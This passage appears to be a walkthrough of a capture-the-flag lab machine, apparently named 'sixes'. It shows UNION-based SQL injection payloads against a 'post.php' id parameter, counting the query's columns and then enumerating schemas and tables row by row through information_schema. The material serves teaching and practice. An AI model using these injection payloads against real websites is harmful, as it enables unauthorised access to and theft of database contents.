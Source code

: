 We can do this by running following querys and appending the list of "null"-values. 

~~~
http://10.0.2.5/?page=post.php&id=1 union select null,null              <- does not work
http://10.0.2.5/?page=post.php&id=1 union select null,null,null         <- works
http://10.0.2.5/?page=post.php&id=1 union select null,null,null,null    <- does not work
~~~
Query 1 and 3 return an empty page, probably because of an error in the DB-query. Query 2 works without error, so since we appended 3x null there, the original query should have 3 columns. 

Now that we know that, we can try to enumerate the db dictonary to identify the existing schemas, tables and their columns inside the db. Each database has "dictionary tables" for that purpose. Information about these tables can be easily found with google, depending on your db. E.g. for MySQL: https://dev.mysql.com/doc/refman/8.0/en/information-schema.html

Since MySQL / MariaDB is probably the most common database behind websites, it's a good guess to start here and as the first queries on these tables work, we know that really one of these is used here. 

Specificaly for this website we're very lucky, because the result of the queries is displayed directly on the page we get as result. It would be a lot more complicated if this wouldn't be the case and we had to do blind sql injection. But still our problem is that we can only extract one line of result per query.
So we have to run a lot of querys and increment the "limit x,1" in order request the result line-by-line to enumerate the whole table: 

So first we start to query information_schema.schemata to get a list of all existing schemas:
~~~
http://10.0.2.5/?page=post.php&id=1 union select null,schema_name,null from information_schema.schemata limit 0,1     => displays the original article 
http://10.0.2.5/?page=post.php&id=1 union select null,schema_name,null from information_schema.schemata limit 1,1     => displays "information_schema"
http://10.0.2.5/?page=post.php&id=1 union select null,schema_name,null from information_schema.schemata limit 2,1     => displays "mysql"
http://10.0.2.5/?page=post.php&id=1 union select null,schema_name,null from information_schema.schemata limit 3,1     => displays "performance_schema"
http://10.0.2.5/?page=post.php&id=1 union select null,schema_name,null from information_schema.schemata limit 4,1     => displays "sixes"
http://10.0.2.5/?page=post.php&id=1 union select null,schema_name,null from information_schema.schemata limit 5,1     => displays "sys"
http://10.0.2.5/?page=post.php&id=1 union select null,schema_name,null from information_schema.schemata limit 6,1     => displays nothing
http://10.0.2.5/?page=post.php&id=1 union select null,schema_name,null from information_schema.schemata limit 7,1     => displays nothing
~~~

Now we know that 5 schemas exist. Since the other 4 are default ones, we focus on "sixes". Now we have to identify which tables exist. 

~~~
http://10.0.2.5/?page=post.php&id=1 union select null,table_name,null from information_schema.tables where table_schema = 'sixes' limit 0,1     => displays the original article 
http://10.0.2.5/?page=post.php&id=1 union select null,table_name,null from information_schema.tables where table_schema = 'sixes' limit 1,1     => displays "articles"
http://10.0.2.5/?page=post.php&id=1 union select null,table_name,null from information_schema.tables where table_schema = 'sixes' limit 2,1     => displays "s3cr3t_t4ble_31337"
http://10.0.2.5/?page=post.php&id=1 union select null,table_name,null from information_schema.tables where table_schema = 'sixes' limit 3,1     => displays "users"
http://10.0.2.5/?page=post.php&id=1 union select null,table_name,null from information_schema.tables where table_schema = 'sixes' limit 4,1     => displays nothing
~~~
